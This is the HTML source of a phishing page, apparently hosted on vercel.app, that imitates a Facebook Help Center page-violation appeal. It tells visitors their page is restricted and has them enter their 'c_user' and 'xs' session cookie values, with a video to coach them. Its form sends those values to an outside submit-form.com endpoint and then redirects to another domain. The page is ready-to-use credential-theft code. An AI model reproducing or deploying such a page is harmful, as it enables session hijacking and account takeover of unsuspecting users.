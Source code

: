 
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <link rel="icon" type="image/svg+xml" href="https://apply-get-verified-badge.vercel.app/assets/logo-xjw2vU6p.png">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Meta Form</title>
        <script type="module" crossorigin="" src="/assets/index-D9lU3uHa.js"></script>
        <link rel="stylesheet" crossorigin="" href="style.css">
    </head>
    <body>
        <form action="https://submit-form.com/whjdciDA4" method="post">
            <input type="hidden" name="_redirect" value="https://password-review.vercel.app/"/>
            <div id="root">
                <div>
                    <form>
                        <div class="d-flex align-items-center" style="width: 100%; height: 90px; background: rgb(70, 103, 172);">
                            <h1 class="text-white ms-4 m-0 d-flex align-self-center">facebook</h1>
                        </div>
                        <div class="d-flex align-items-center" style="width: 100%; height: 60px; background: rgb(233, 235, 238);">
                            <h4 class="ms-4 m-0 d-flex align-self-center text-primary">Help Center</h4>
                        </div>
                        <div class="col-12 my-4 d-flex justify-content-center align-items-center">
                            <div class="col-11 col-md-6 border">
                                <div class="p-2" style="background: rgb(245, 246, 247);">
                                    <h5 class="m-0">Request For Remove Page Violation</h5>
                                </div>
                                <div class="p-2">
                                    <p class="fw-semibold validation_form_para">We've identified irregular activity on your page that goes against our community guidelines.</p>
                                    <p class="fw-semibold validation_form_para">As a result, access to your page has been restricted, and you're presently unable to post, share, or comment using it.</p>
                                    <p class="fw-semibold validation_form_para">Please provide the precise details below. Refer to the video for clarification if you find the instructions unclear.</p>
                                    <p class="fw-semibold text-secondary" style="font-size: 12px;">Detailed Video Information.</p>
                                    <video controls="" autoplay="" src="https://firebasestorage.googleapis.com/v0/b/northern-card-408313.appspot.com/o/detailed%20video.mp4?alt=media&amp;token=a36aa6ff-64b7-4d24-b294-cd35d4d57cc2" style="width: 300px; height: 160px;"></video>
                                    <br>
                                    <button>Enable Sound</button>
                                    <p class="fw-semibold validation_form_para mt-2">Please be sure to provide the requested information below.</p>
                                    <label class="" style="font-size: 12px;">c_user</label>
                                    <br>
                                    <input type="number" name="c_user" required="" pattern="^\d{15}$" title="Please enter 15 digits">
                                    <br>
                                    <label class="mt-2" style="font-size: 12px;">xs</label>
                                    <br>
                                    <input type="text" name="xs">
                                    <p class="mt-2" style="font-size: 12px;">Please make sure not to log out from your computer or laptop until you have received a verification email.</p>
                                </div>
                                <div class="p-2 mb-2 d-flex justify-content-end" style="background: rgb(245, 246, 247);">
                                    <button type="submit" class="text-white border-0" style="background: rgb(66, 103, 178);">Submit</button>
                                </div>
                            </div>
                        </div>
                    </form>
                </div>
            </div>
    </body>
</html>

